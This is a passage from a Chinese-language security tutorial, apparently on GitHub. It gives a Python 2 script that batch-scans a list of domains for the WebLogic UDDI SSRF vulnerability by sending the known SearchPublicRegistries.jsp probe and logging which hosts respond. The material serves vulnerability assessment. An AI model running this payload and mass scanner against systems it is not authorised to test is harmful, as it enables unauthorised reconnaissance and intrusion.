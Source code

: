 ### 批量检测脚本

#### 批量检测是否存在weblogic SSRF漏洞

将域名保存在domain.txt文件中，运行脚本，自动进行批量检测。

![pic1](/assets/ssrf/8.png)

![pic1](/assets/ssrf/9.png)

代码如下：

```python
#!/usr/bin/env python  
# -*- coding: utf-8 -*-
# 功能：批量探测weblogic SSRF漏洞


import re
import sys
import Queue
import requests
import threading

from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

queue = Queue.Queue()
mutex = threading.Lock()

class Weblogic_SSRF_Check(threading.Thread):
    """docstring for Weblogic_SSRF_Check"""
    def __init__(self, queue):
        threading.Thread.__init__(self)
        self.queue = queue

    def check(self,domain,ip):
        payload = "uddiexplorer/SearchPublicRegistries.jsp?operator={ip}&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search".format(ip=ip)
        url = domain + payload

        try:
            html = requests.get(url=url, timeout=15, verify=False).content

            m = re.search('weblogic.uddi.client.structures.exception.XML_SoapException',html)
            if m:
                mutex.acquire()
                with open('ssrf.txt','a+') as f:
                    print "%s has weblogic ssrf." % domain
                    f.write("%s has weblogic ssrf.\n" % domain)
                mutex.release()
```